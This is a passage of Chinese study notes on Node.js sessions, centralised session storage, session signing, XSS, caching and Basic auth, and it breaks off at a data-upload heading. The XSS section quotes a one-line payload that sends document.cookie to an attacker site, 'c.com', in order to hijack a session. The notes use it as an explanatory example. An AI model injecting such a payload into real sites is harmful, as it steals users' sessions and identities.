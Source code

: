 2. 通过查询宇符串来实现浏览器端和服务器端数据的对应；

   用户访问`http:/localhost/pathnamel`时，如果服务器端发现查询字符串中不带 session_id 参数，就会将用户跳转到`http:localhost/pathname?session_id=12344567`这样一个类似的地址。如果浏览器收到 302 状态码和 Location 报头，就会重新发起新的请求；  
   **注：** 也需要检测 session 是否过期；禁用 Cookie 时用；不安全（将 url 发给别人）

3. Session 与内存

   - 问题：

     1. node 对内存有限制，将 Session 直接存在内存中可能接触到内存上限；并且内存中的数据量加大，必然会引起垃圾回收的频繁扫描，引起性能问题。

     2. 另一个问题，我们可能为了利用多核 CPU 而启动多个进程，用户请求的连接将可能随意分配到各个进程中，Node 的进程与进程之间是不能直接共享内存的，用户的 Session 可能会引起错乱。

   - 解决方法：将 Session 集中化，将原本可能分散在多个进程里的数据，统一转移到集中的数据存储中。  
     目前常用的工具是 Redis、Memcached 等，通过这些高效的缓存，Node 进程无须在内部维护数据对象，垃圾回收问题和内存限制问题都可以迎刃而解，并且这些高速缓存设计的缓存过期策略更合理更高效，比在 Node 中自行设计缓存策略更好。

4. Session 与安全

   - 理论上自行设计的随机算法的口令容易命中有效的口令值；--》将口令通过私钥加密进行签名，使得伪造的成本较高。
   - 将客户端的某些独有信息与口令作为原值，然后签名，这样攻击者一旦不在原始的客户端上进行访问，就会导致签名失败。这些独有信息包括用户 IP 和用户代理(User Agent)

5. XSS 漏洞--跨站脚本攻击  
   它的主要形成原因多数是用户的输人没有被转义，而被直接执行。

   `location.href = "http://c.com/?" + document.cookie` 这段代码将该用户的 Cookie 提交给了 c.com 站点，这个站点就是攻击者的服务器，他也就能拿到该用户的 Session 口令。然后他在客户端中用这个口令伪造 Cookie,从而实现了伪装用户的身份。如果该用户是网站管理员，就可能造成极大的危害。

## 缓存

大多少缓存只应用在 GET 请求中，post、delete、put 这类带`行为性`的请求一般不做缓存；

## Basic 认证 ---》缺点太多

## 数据上传
